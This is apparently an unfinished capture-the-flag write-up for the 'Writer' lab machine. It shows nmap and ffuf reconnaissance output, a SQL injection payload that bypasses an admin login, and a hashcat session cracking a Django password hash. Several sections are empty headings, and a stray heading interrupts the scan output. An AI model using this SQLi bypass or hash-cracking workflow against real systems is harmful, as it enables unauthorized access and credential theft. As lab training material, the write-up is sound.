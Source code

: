 # Port Scanning 
`nmap` found 4 open TCP ports, SSH (22) , HTTP (80) , SMB (139,445):

```bash
# Nmap 7.91 scan initiated Sun Aug  1 08:48:33 2021 as: nmap -sC -sV -oN inital_scan.txt -v 10.10.11.101
Nmap scan report for 10.10.11.101
Host is up (0.058s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   WRITER<00>           Flags: <unique><active>
|   WRITER<03>           Flags: <unique><active>
|   WRITER<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active># Knowledge Gained

# Port Scanning
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-01T02:48:47
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug  1 08:48:50 2021 -- 1 IP address (1 host up) scanned in 16.78 seconds

```

# Web Reconnaissance
I added writer.htb in `/etc/hosts` file with associated IP address. I visited `http://writer.htb` and it returns this:

![web_root](https://github.com/binsec01/progress/raw/main/screenshots/writer-web_root.png)
###### Content Discovery:
I used `ffuf`  for fuzzing web contents.
```bash
$ ffuf -w /opt/SecLists/Discovery/Web-Content/common.txt  -u http://writer.htb/FUZZ         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://writer.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

contact                 [Status: 200, Size: 4899, Words: 242, Lines: 110]
logout                  [Status: 302, Size: 208, Words: 21, Lines: 4]
about                   [Status: 200, Size: 3522, Words: 250, Lines: 75]
static                  [Status: 301, Size: 309, Words: 20, Lines: 10]
dashboard               [Status: 302, Size: 208, Words: 21, Lines: 4]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10]
administrative          [Status: 200, Size: 1443, Words: 185, Lines: 35]
:: Progress: [4685/4685] :: Job [1/1] :: 388 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

![admin_login_page](screenshots/writer-admin_login_page.png?raw=true)

<center>writer.htb/administrative</center>

# Exploitation
I tried some random username password combination. but did't work! Then I put SQLi Payload and bypassed Admin Login.
```sqli
username = admin' -- -
password = admin' -- -
```
![[writer-SQLi.png]]

Admin Dashboard Screenshot:

![[writer-admin_panel_bypass_with_SQLi.png]]

-------------
 I send admin login request to burp for harvesting database info.  There was total 6 columns and 2nd column executes our SQL Query.

 ![[writer-vulnerable_column.png]]
# Reverse shell as www-data

# Post-Exploitation
- From www-data shell to $USER

# Privilege Escalation
- Enumeration

# Gainning Root User

Apache2 Domain Mapping Config PATH :  `/etc/apache2/sites-enabled/000-default.conf`

```bash
─$ hashcat -m 10000 hashes.txt /usr/share/wordlists/rockyou.txt --force                                                                                                                                                          2 ⨯
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
CUDA API (CUDA 11.4)
====================
* Device #1: NVIDIA GeForce GT 1030, 1533/2000 MB, 3MCU

OpenCL API (OpenCL 3.0 CUDA 11.4.94) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: NVIDIA GeForce GT 1030, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 116 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Mon Sep 27 16:50:00 2021, (18 secs)
Time.Estimated...: Mon Sep 27 16:50:18 2021, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      670 H/s (8.91ms) @ Accel:4 Loops:128 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12288/14344385 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259968-259999
Candidates.#1....: 123456 -> hawkeye
Hardware.Mon.#1..: Temp: 65c Fan: 55% Util:100% Core:1746MHz Mem:3003MHz Bus:4

Started: Mon Sep 27 16:49:59 2021
Stopped: Mon Sep 27 16:50:19 2021
```
